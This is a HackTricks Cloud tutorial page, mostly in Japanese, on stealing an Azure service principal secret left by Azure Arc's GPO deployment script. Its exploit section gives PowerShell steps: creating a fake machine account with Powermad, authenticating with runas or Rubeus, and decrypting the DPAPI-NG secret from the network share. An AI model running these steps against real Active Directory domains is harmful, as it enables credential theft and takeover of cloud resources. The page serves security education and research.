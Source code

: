 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arcは、グループポリシーオブジェクトメソッドを使用して新しい内部サーバー（ドメイン参加サーバー）をAzure Arcに統合することを可能にします。これを促進するために、Microsoftはオンボーディング手順を開始するために必要なデプロイメントツールキットを提供しています。ArcEnableServerGroupPolicy.zipファイル内には、次のスクリプトが含まれています：DeployGPO.ps1、EnableAzureArc.ps1、およびAzureArcDeployment.psm1。

DeployGPO.ps1スクリプトが実行されると、次のアクションが実行されます：

1. ローカルドメイン内にAzure ArcサーバーオンボーディングGPOを作成します。
2. オンボーディングプロセスのために作成された指定されたネットワーク共有にEnableAzureArc.ps1オンボーディングスクリプトをコピーします。この共有にはWindowsインストーラーパッケージも含まれています。

このスクリプトを実行する際、システム管理者は2つの主要なパラメータを提供する必要があります：**ServicePrincipalId**と**ServicePrincipalClientSecret**。さらに、ドメイン、共有をホストするサーバーのFQDN、および共有名などの他のパラメータも必要です。テナントID、リソースグループ、およびスクリプトに提供する必要のあるその他の情報などの詳細も必要です。

暗号化されたシークレットは、指定された共有のAzureArcDeployディレクトリ内にDPAPI-NG暗号化を使用して生成されます。暗号化されたシークレットは、encryptedServicePrincipalSecretという名前のファイルに保存されます。これに関する証拠は、DeployGPO.ps1スクリプト内に見られ、暗号化は$descriptorと$ServicePrincipalSecretを入力としてProtectBase64を呼び出すことによって行われます。ディスクリプタは、ドメインコンピュータおよびドメインコントローラグループのSIDで構成されており、ServicePrincipalSecretはドメインコントローラおよびドメインコンピュータのセキュリティグループによってのみ復号化できることが、スクリプトのコメントに記載されています。
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

次の条件があります：

1. 内部ネットワークに成功裏に侵入しました。
2. Active Directory内でコンピュータアカウントを作成または制御する能力があります。
3. AzureArcDeployディレクトリを含むネットワーク共有を発見しました。

AD環境内でマシンアカウントを取得する方法はいくつかあります。最も一般的な方法の1つは、マシンアカウントのクォータを悪用することです。別の方法は、脆弱なACLやさまざまな他の誤設定を通じてマシンアカウントを侵害することです。
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
マシンアカウントが取得されると、このアカウントを使用して認証することが可能です。runas.exeコマンドをnetonlyフラグと共に使用するか、Rubeus.exeを使用してパス・ザ・チケットを利用することができます。
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
メモリにコンピュータアカウントのTGTを保存することで、次のスクリプトを使用してサービスプリンシパルの秘密を復号化できます。
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
代わりに、[SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)を使用できます。

この時点で、暗号化されたServicePrincipalSecretファイルと同じネットワーク共有に保存されているArcInfo.jsonファイルから、Azureに接続するために必要な残りの情報を収集できます。このファイルには、TenantId、servicePrincipalClientId、ResourceGroupなどの詳細が含まれています。この情報を使用して、Azure CLIを使用して侵害されたサービスプリンシパルとして認証できます。

## 参考文献

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
